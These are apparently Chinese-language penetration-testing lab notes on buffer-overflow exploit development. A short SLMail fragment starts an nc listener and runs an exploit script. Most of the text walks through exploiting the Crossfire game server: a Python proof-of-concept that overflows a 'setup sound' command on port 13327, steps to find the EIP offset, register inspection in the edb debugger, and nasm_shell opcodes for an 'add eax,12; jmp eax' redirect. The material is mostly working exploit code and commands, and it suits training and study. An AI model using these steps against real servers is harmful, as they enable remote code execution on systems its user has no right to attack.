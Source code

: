 重启slmail服务和debugger,
nc -nvlp 443
python slmail-pop3.py
exit
此时 nc -v 192.168.30.5 110 发现拒绝连接,说明该服务已未响应



### linux(32bit)

查看内核版本:
uname -a
Linux kali 3.7-trunk-486 #1 Debian 3.7.2-0+kali8 i686 GNU/Linux

设置防火墙:
iptables -A INPUT -p TCP --destinatipon-port 13327 \! -d 127.0.0.1 -j DROP
iptables -A INPUT -p TCP --destinatipon-port 4444 \! -d 127.0.0.1 -j DROP

edb --run /usr/games/crossfire/bin/crossfire
run运行该程序

```crossfire-poc.py
#!/usr/bin/python
import socket

host = "127.0.0.1"

crash = "\x41" * 4379

buffer = "\x11(setup sound " + crash + "\x90\x00#"

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
print "[*]Sending evil buffer..."
s.connect((host,13327))
s.send(buffer)
data=s.recv(1024)
print data
s.close()
print "[*]Payload Sent !"
```
python crossfire-poc.py
观察到此时eip已被A(41)填充
修改py脚本:     crash = "\x41" * 4368 + "\x42" * 4 + "C" * 7
重启edb:        edb --run /usr/games/crossfire/bin/crossfire
python crossfire-poc.py     观察到eip已被B(42)填充
follow eax in dump  可以看到eax地址处的值为setup sound,复制eax的内存地址(0xb6ef0a0e),跳到该地址处,可以看到值(73 65 74 75 70 20 73 6f 75 6e 64) follow ebx in dump   没有任何结果
follow esp in dump  可以看到buffer结尾的一串C

在kali机运行:
```
ruby /usr/share/metasploit-framework/tools/nasm_shell.rb
nasm > add eax,12
00000000 83C00C             add eax,byte +0xc
nasm > jmp eax
00000000 FFE0               jmp eax
nasm > exit
```
